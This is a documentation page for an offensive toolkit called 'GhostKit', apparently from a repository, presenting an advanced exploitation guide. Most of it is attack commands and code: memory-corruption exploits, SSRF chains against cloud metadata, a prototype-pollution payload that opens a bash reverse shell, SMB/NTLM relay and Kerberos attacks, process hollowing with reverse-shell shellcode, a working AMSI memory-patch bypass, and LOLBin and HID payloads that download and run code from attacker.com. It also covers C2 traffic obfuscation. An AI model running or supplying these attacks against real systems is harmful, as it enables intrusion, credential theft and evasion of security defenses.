


# Advanced Exploitation Techniques



> "The art of exploitation requires precision, creativity, and deep technical understanding" — GhostKit Exploitation Team

## Introduction

This guide covers advanced exploitation techniques using GhostKit for authorized security assessments. These methods require sophisticated understanding of system internals, network protocols, and application architecture.

⚠️ **WARNING**: These techniques are provided for educational purposes and authorized security assessments only. Unauthorized use is illegal and unethical.

## Memory Corruption Exploitation

### Buffer Overflow Development

GhostKit provides a systematic approach to buffer overflow exploitation:

```bash
# Identify buffer overflow vulnerability
python ghostkit.py -m vuln_scanner --target 192.168.1.100:21 --module buffer-overflow

# Generate pattern for offset identification
python ghostkit.py -m pattern_create --length 5000

# Identify EIP/RIP offset
python ghostkit.py -m pattern_offset --pattern Aa0Aa1Aa2... --address 42306142

# Generate shellcode with encoder
python ghostkit.py -m shellcode_gen --type reverse_shell --arch x86 --platform windows \
  --encoder shikata_ga_nai --iterations 3 --lhost 192.168.1.5 --lport 4444

# Deliver exploit
python ghostkit.py -m exploit_delivery --target 192.168.1.100:21 --vulnerability buffer-overflow \
  --offset 2003 --shellcode shellcode.bin --nop-sled 32 --bad-chars "\\x00\\x0a\\x0d"
```

The exploitation process involves:

1. **Fuzzing** - Identifying potential overflow points
2. **Controlling EIP/RIP** - Determining exact offset
3. **Finding Space** - Locating shellcode placement
4. **Bypassing Protections** - Handling ASLR, DEP, stack cookies
5. **Shellcode Delivery** - Executing payload on target

### Format String Exploitation

For format string vulnerabilities:

```bash
# Identify format string vulnerability
python ghostkit.py -m vuln_scanner --target 192.168.1.100:1337 --module format-string

# Exploit format string to leak memory
python ghostkit.py -m format_string_exploit --target 192.168.1.100:1337 \
  --leak-type stack --num-params 7

# Write to arbitrary memory
python ghostkit.py -m format_string_exploit --target 192.168.1.100:1337 \
  --write-address 0x08049638 --write-value 0xdeadbeef --param-offset 7
```

Format string attacks allow:
- Stack content leakage
- Arbitrary memory reading
- Arbitrary memory writing
- Control flow hijacking

Example payload construction:
```python
# GhostKit Python module example
from ghostkit.modules.exploit import FormatStringExploit

exploit = FormatStringExploit(
    target="192.168.1.100",
    port=1337,
    param_offset=7
)

# Leak memory addresses
libc_base = exploit.leak_libc_base()
print(f"Libc base address: {hex(libc_base)}")

# Calculate function address
system_addr = libc_base + exploit.offsets["system"]
binsh_addr = libc_base + exploit.offsets["/bin/sh"]

# Overwrite GOT entry
exploit.write_address(
    address=0x08049638,  # GOT entry for exit()
    value=system_addr,   # Address of system()
    write_technique="short_write"
)

# Trigger the exploit
exploit.trigger(binsh_addr)
```

### Use-After-Free Exploitation

```bash
# Generate use-after-free payload
python ghostkit.py -m uaf_generator --target browser --browser chrome --version 88.0.4324.150

# Simulate heap layout
python ghostkit.py -m heap_analyzer --simulate --target firefox --version 86.0 \
  --free-size 0x40 --spray-size 0x40 --count 100

# Deliver UAF exploit
python ghostkit.py -m browser_exploit --exploit uaf_chrome_88 --delivery web --url http://test-server/
```

Typical UAF exploitation workflow:

1. **Trigger free** - Free target object while maintaining reference
2. **Heap spray** - Control contents of reallocated memory
3. **Object reuse** - Trigger code that uses freed object
4. **Exploit chain** - Leverage corrupted object for code execution

## Web Application Exploitation

### Server-Side Request Forgery (SSRF) Chaining

```bash
# Identify potential SSRF vulnerability
python ghostkit.py -m web_scanner --url https://target-app.com --module ssrf

# Exploit SSRF to access AWS metadata service
python ghostkit.py -m ssrf_exploit --url https://target-app.com/api/fetch \
  --parameter url --target http://169.254.169.254/latest/meta-data/ \
  --technique dns-rebinding --bypass-list ip-validation,whitelist

# Chain SSRF to access internal services
python ghostkit.py -m ssrf_chain --initial-url https://target-app.com/api/fetch \
  --target-chain http://localhost:8080,http://internal-jenkins:8080 \
  --extract-patterns credentials,tokens
```

Advanced SSRF techniques:

```python
# GhostKit Python module example
from ghostkit.modules.web import SSRFChain

# Initialize the SSRF chain
ssrf = SSRFChain(
    target_url="https://target-app.com/api/fetch",
    injectable_param="url",
    headers={"Authorization": "Bearer eyJ0eXAi..."}
)

# Add bypass techniques
ssrf.add_technique("dns_rebinding", domain="ssrf-[TARGET_IP].burpcollaborator.net")
ssrf.add_technique("ip_obfuscation", methods=["decimal", "octal", "hex"])
ssrf.add_technique("url_encoding", depth=2)

# Define chain targets
ssrf.add_target("http://169.254.169.254/latest/meta-data/iam/security-credentials/")
ssrf.add_target("http://localhost:8080/actuator/env")
ssrf.add_target("http://internal-jenkins:8080/script")

# Execute the chain
results = ssrf.execute()

# Extract valuable information
for result in results:
    if result.success:
        print(f"Successfully accessed: {result.target}")
        print(f"Extracted data: {result.extracted_data}")
        
        # Use extracted data in further exploitation
        if "jenkins_token" in result.extracted_data:
            jenkins_exploit = JenkinsExploit(token=result.extracted_data["jenkins_token"])
            jenkins_exploit.execute_groovy_script("println 'System compromised'")
```

### GraphQL Introspection and Exploitation

```bash
# Discover GraphQL endpoint
python ghostkit.py -m api_discovery --url https://target-app.com --api-type graphql

# Perform introspection
python ghostkit.py -m graphql_introspection --url https://target-app.com/graphql

# Identify vulnerable queries/mutations
python ghostkit.py -m graphql_analyzer --introspection-file schema.json --check-auth

# Exploit insecure direct object references
python ghostkit.py -m graphql_exploit --url https://target-app.com/graphql \
  --query-file idor_query.graphql --auth-token "$TOKEN"
```

Example GraphQL attack queries:

```graphql
# Introspection query to map the API
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}

fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
}

fragment InputValue on __InputValue {
  name
  description
  type { ...TypeRef }
  defaultValue
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
        }
      }
    }
  }
}

# IDOR exploitation query
query ExploitIDOR {
  user(id: 1) {
    id
    username
    email
    role
    apiKeys
    accessToken
  }
}

# Batch query to bypass rate limits
query BatchExploit {
  user1: user(id: 1) { id username email }
  user2: user(id: 2) { id username email }
  user3: user(id: 3) { id username email }
  # ... repeat for many users
  user100: user(id: 100) { id username email }
}
```

### Prototype Pollution

```bash
# Scan for prototype pollution vulnerabilities
python ghostkit.py -m web_scanner --url https://target-app.com --module prototype-pollution

# Exploit prototype pollution
python ghostkit.py -m prototype_pollution --url https://target-app.com \
  --injection-point "user.preferences" --payload '{"__proto__":{"isAdmin":true}}'

# Chain with server-side template injection
python ghostkit.py -m ssti_chain --proto-pollution-endpoint https://target-app.com/api/user/preferences \
  --template-endpoint https://target-app.com/api/render --template-engine handlebars
```

JavaScript exploitation code:

```javascript
// GhostKit JavaScript payload example
(function() {
  // Stage 1: Prototype Pollution
  function pollute() {
    const payload = JSON.stringify({
      "preferences": {
        "__proto__": {
          "outputFunctionName": "x;process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/192.168.1.5/4444 0>&1\"');x"
        }
      }
    });
    
    fetch('/api/user/preferences', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        'Authorization': 'Bearer ' + localStorage.getItem('token')
      },
      body: payload
    })
    .then(response => response.json())
    .then(data => {
      console.log('Prototype polluted successfully');
      triggerTemplate();
    });
  }
  
  // Stage 2: Trigger template rendering with polluted prototype
  function triggerTemplate() {
    fetch('/api/render', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        'Authorization': 'Bearer ' + localStorage.getItem('token')
      },
      body: JSON.stringify({
        "template": "{{message}}",
        "data": {
          "message": "Hello World"
        }
      })
    });
  }
  
  pollute();
})();
```

## Network Protocol Exploitation

### SMB Relay Attacks

```bash
# Set up SMB relay
python ghostkit.py -m smb_relay --interface eth0 --target 192.168.1.100 \
  --mitm-target 192.168.1.5 --capture-hashes --execute-command "whoami /all"

# Forced authentication
python ghostkit.py -m forced_auth --coerce-target 192.168.1.10 \
  --technique ms-sqlserver --relay-to 192.168.1.100

# Pass-the-Hash lateral movement
python ghostkit.py -m pass_the_hash --target 192.168.1.200 \
  --hash aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99 \
  --username Administrator --command "powershell -e JwBuAGUAdAAg..."
```

SMB relay attack workflow:

1. **Force authentication** - Trigger SMB connection from victim
2. **Intercept authentication** - Capture NTLM challenge/response
3. **Relay authentication** - Forward to target server
4. **Execute commands** - Use relayed authentication for code execution

### VLAN Hopping

```bash
# Discover VLAN information
python ghostkit.py -m vlan_discovery --interface eth0 --passive

# Double tagging attack
python ghostkit.py -m vlan_hopping --interface eth0 --technique double-tagging \
  --native-vlan 1 --target-vlan 100 --payload arp-scan
```

VLAN hopping techniques:

```python
# GhostKit Python module example
from ghostkit.modules.network import VLANHopping
from ghostkit.modules.payload import ARPScan

# Initialize VLAN hopping module
hopping = VLANHopping(
    interface="eth0",
    native_vlan=1,
    target_vlan=100
)

# Create payload
payload = ARPScan(
    target_range="10.100.0.0/24",
    timeout=2
)

# Execute attack
results = hopping.execute(
    technique="double_tagging",
    payload=payload,
    max_attempts=5
)

# Process results
discovered_hosts = results.get("discovered_hosts", [])
for host in discovered_hosts:
    print(f"Discovered host in VLAN 100: {host}")
    
    # Attempt service discovery on found hosts
    service_scan = ServiceScan(target=host)
    services = service_scan.execute()
    
    for service in services:
        print(f"  {service.port}/{service.protocol}: {service.name} {service.version}")
```

### DNS Cache Poisoning

```bash
# Analyze DNS server for vulnerabilities
python ghostkit.py -m dns_analyzer --target ns1.target.com --check-txid-randomness

# Execute DNS cache poisoning
python ghostkit.py -m dns_poisoning --target-dns 192.168.1.53 \
  --spoof-domain banking.com --redirect-to 192.168.1.100 \
  --technique birthday-attack --queries-per-second 10000
```

DNS attack techniques:

1. **Transaction ID Prediction** - Exploiting weak randomization
2. **Birthday Attack** - Probabilistic attack with many parallel queries
3. **Subdomain Injection** - Poisoning entries for specific subdomains
4. **Kaminsky Attack** - Targeting non-existent subdomains for extended attack surface

## Active Directory Exploitation

### Kerberos Attacks

```bash
# Kerberoasting
python ghostkit.py -m kerberoast --domain example.local --dc-ip 192.168.1.10 \
  --usernames users.txt --output-format hashcat

# AS-REP Roasting
python ghostkit.py -m asreproast --domain example.local --dc-ip 192.168.1.10 \
  --usernames users.txt --output-format john

# Golden Ticket
python ghostkit.py -m golden_ticket --domain example.local --dc-ip 192.168.1.10 \
  --domain-sid S-1-5-21-1234567890-1234567890-1234567890 \
  --krbtgt-hash 5f4dcc3b5aa765d61d8327deb882cf99 --user-id 500 --username Administrator
```

Kerberos attack techniques:



### NTLM Relay and Pass-the-Hash

```bash
# NTLM Relay
python ghostkit.py -m ntlm_relay --interface eth0 --target ldap://192.168.1.10 \
  --escalate --add-user hacker --add-to-group "Domain Admins"

# LLMNR/NBT-NS Poisoning
python ghostkit.py -m responder --interface eth0 --analyze-only
```

## Post-Exploitation Techniques

### Process Injection

```bash
# Process listing for injection target
python ghostkit.py -m process_analyzer --target 192.168.1.100 --filter-system

# Process injection
python ghostkit.py -m process_injection --target 192.168.1.100 --pid 4312 \
  --technique process-hollowing --payload reverse_shell.bin
```

Process injection techniques:

| Technique | Description | Detection Difficulty | GhostKit Module |
|-----------|-------------|----------------------|-----------------|
| DLL Injection | Load malicious DLL into process | Medium | `dll_injector` |
| Process Hollowing | Replace process memory with malicious code | Medium | `process_hollower` |
| Thread Execution Hijacking | Suspend thread and modify context | High | `thread_hijacker` |
| Atom Bombing | Use global atom table for code injection | High | `atom_bomber` |
| Process Doppelgänging | Leverage NTFS transactions for process image manipulation | Very High | `process_doppelganger` |
| Gargoyle | ROP-chain execution with intermittent sleeping | Very High | `gargoyle_attack` |

Example process hollowing implementation:

```python
# GhostKit Python module example
from ghostkit.modules.injection import ProcessHollowing
from ghostkit.modules.payload import ShellcodeGenerator

# Generate shellcode
shellcode_gen = ShellcodeGenerator(
    payload_type="reverse_shell",
    options={
        "lhost": "192.168.1.5",
        "lport": 4444,
        "encoder": "shikata_ga_nai",
        "iterations": 3
    }
)
shellcode = shellcode_gen.generate()

# Initialize process hollowing
hollowing = ProcessHollowing(
    target_system="192.168.1.100",
    target_process="svchost.exe",
    shellcode=shellcode,
    options={
        "spoof_parent": True,
        "parent_process": "explorer.exe",
        "protect_memory": True
    }
)

# Execute the injection
result = hollowing.execute()
print(f"Process hollowing result: {result.status}")
print(f"Injected PID: {result.pid}")
```

### AMSI and EDR Bypass

```bash
# Analyze EDR solution
python ghostkit.py -m edr_analyzer --target 192.168.1.100 --edr-type crowdstrike

# AMSI bypass
python ghostkit.py -m amsi_bypass --target 192.168.1.100 --technique patching \
  --delivery reflective --obfuscation-level high

# Generate AMSI bypass code
python ghostkit.py -m amsi_bypass --generate-code --language powershell \
  --technique memory-patching --obfuscation-level maximum
```

Example AMSI bypass PowerShell code:

```powershell
# AMSI bypass using memory patching
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$ptr = [Win32]::GetProcAddress([Win32]::LoadLibrary("amsi.dll"), "AmsiScanBuffer")
$b = 0; [Win32]::VirtualProtect($ptr, [UIntPtr][UInt32]5, 0x40, [Ref]$b)
$patch = [Byte[]](@(0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3))
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $ptr, 6)
```

### Living Off The Land

```bash
# Analyze system for LOLBins
python ghostkit.py -m lolbin_finder --target 192.168.1.100 --os windows

# Execute fileless PowerShell
python ghostkit.py -m lolbin_executor --target 192.168.1.100 \
  --technique regsvr32 --payload http://attacker.com/payload.sct

# Discover AppLocker bypass opportunities
python ghostkit.py -m applocker_analyzer --target 192.168.1.100 --find-gaps
```

LOLBin techniques:

```powershell
# Example LOLBin commands generated by GhostKit

# Regsvr32 execution
regsvr32.exe /s /u /i:http://attacker.com/payload.sct scrobj.dll

# MSHTA execution
mshta.exe javascript:a=GetObject("script:http://attacker.com/payload.sct").Exec();close();

# CertUtil file download
certutil.exe -urlcache -split -f http://attacker.com/payload.exe C:\Windows\Temp\payload.exe

# Rundll32 execution
rundll32.exe advpack.dll,LaunchINFSection C:\payload.inf,DefaultInstall_SingleUser,1,

# WMIC process creation
wmic.exe process call create "powershell -enc JABjAGwAaQBlAG4AdAAgAD0..."
```

## Wireless Network Exploitation

### WiFi Protected Setup (WPS) Attacks

```bash
# Scan for WPS-enabled networks
python ghostkit.py -m wifi_scanner --interface wlan0mon --wps-only

# Pixie Dust attack
python ghostkit.py -m wps_attack --interface wlan0mon --bssid 00:11:22:33:44:55 \
  --technique pixie-dust
```

### WPA/WPA2 Enterprise Attacks

```bash
# Create rogue access point
python ghostkit.py -m evil_twin --interface wlan0 --target-ssid "Corporate WiFi" \
  --technique radius-impersonation

# Capture and crack EAP credentials
python ghostkit.py -m eap_harvester --interface wlan0mon --output-format john
```

## Hardware Exploitation

### Physical Memory Acquisition

```bash
# Memory acquisition over network
python ghostkit.py -m memory_acquisition --target 192.168.1.100 --technique live-response \
  --format raw --output memory.bin

# Live memory analysis
python ghostkit.py -m memory_analyzer --file memory.bin --detect-injections --extract-credentials
```

### USB-Based Attacks

```bash
# Generate HID payload
python ghostkit.py -m rubber_ducky --payload keylogger --target windows10 \
  --output inject.bin

# Simulate HID device
python ghostkit.py -m usb_emulator --device-type keyboard --payload inject.bin
```

Example HID payload script:

```ducky
REM GhostKit HID payload for Windows credential theft
DELAY 3000
GUI r
DELAY 500
STRING powershell -w hidden -nop -c "$c=New-Object Net.WebClient;$c.DownloadString('http://attacker.com/p')|iex"
ENTER
```

## Advanced Evasion Techniques

### Traffic Obfuscation

```bash
# Analyze network monitoring
python ghostkit.py -m traffic_analyzer --target-network 192.168.1.0/24 --identify-ids

# Configure C2 traffic blending
python ghostkit.py -m c2_blender --profile office365 --jitter 30-90 \
  --domains legitimate-cdn.com --headers "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
```

Traffic obfuscation techniques:

```python
# GhostKit Python module example
from ghostkit.modules.evasion import TrafficObfuscator
from ghostkit.modules.c2 import C2Channel

# Create traffic obfuscator
obfuscator = TrafficObfuscator(
    profile="office365",
    options={
        "domain_fronting": True,
        "cdn": "azureedge.net",
        "host_header": "login.microsoftonline.com",
        "uri_pattern": "/resources/[0-9]{4}/[a-z0-9]{8}.js",
        "request_padding": True,
        "jitter": (30, 90)
    }
)

# Apply to C2 channel
c2_channel = C2Channel(
    transport="https",
    endpoint="192.168.1.5",
    port=443,
    encryption="aes-256-gcm",
    key="s3cr3tk3yh3r3"
)

# Apply obfuscation
obfuscated_channel = obfuscator.apply_to_channel(c2_channel)

# Use the channel
obfuscated_channel.connect()
obfuscated_channel.send("system_info")
response = obfuscated_channel.receive()
```

### Binary Obfuscation

```bash
# Obfuscate binary
python ghostkit.py -m binary_obfuscator --input payload.exe --output obfuscated.exe \
  --techniques packing,virtualization,anti-debug --level maximum

# Test against security solutions
python ghostkit.py -m av_checker --file obfuscated.exe --solutions windows-defender,crowdstrike,mcafee
```

Binary obfuscation techniques:

1. **Code Packing** - Compress and encrypt original code
2. **Control Flow Flattening** - Obscure logical flow of execution
3. **String Encryption** - Hide readable strings in binary
4. **Anti-Analysis Features** - Detect debugging and virtualized environments
5. **API Unhooking** - Bypass EDR hooks on system APIs

## Operational Security Considerations

When using these advanced exploitation techniques:

1. **Authorization** - Ensure you have explicit permission for all activities
2. **Scope Management** - Strictly adhere to defined engagement boundaries
3. **Data Protection** - Handle any sensitive data with appropriate controls
4. **Documentation** - Maintain detailed records of all activities
5. **Risk Mitigation** - Use staged approaches to reduce potential impact

## Case Studies

### Critical Infrastructure Penetration Test

This case study demonstrates how GhostKit was used in an authorized penetration test of an industrial control system:

1. **Initial Access** - SSRF vulnerability in web dashboard
2. **Lateral Movement** - SMB relay to domain controller
3. **Privilege Escalation** - Kerberoasting attack
4. **Defense Evasion** - Process injection to evade EDR
5. **Impact Demonstration** - Safe simulation of control system manipulation

### Financial Institution Red Team

This case study shows how GhostKit was used in a full-scope red team engagement:

1. **Initial Access** - Spear-phishing with macro document
2. **Persistence** - WMI event subscription
3. **Credential Theft** - Memory injection to bypass credential guard
4. **Lateral Movement** - Kerberos ticket attacks
5. **Data Exfiltration** - DNS tunneling with encryption

## References

- [GhostKit Module Documentation](../getting-started/overview.md)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Exploit Development Resources](../development/plugin-development.md)
- [Advanced Persistence Techniques](../tradecraft/opsec.md)

---

*Last updated: May 30, 2025*
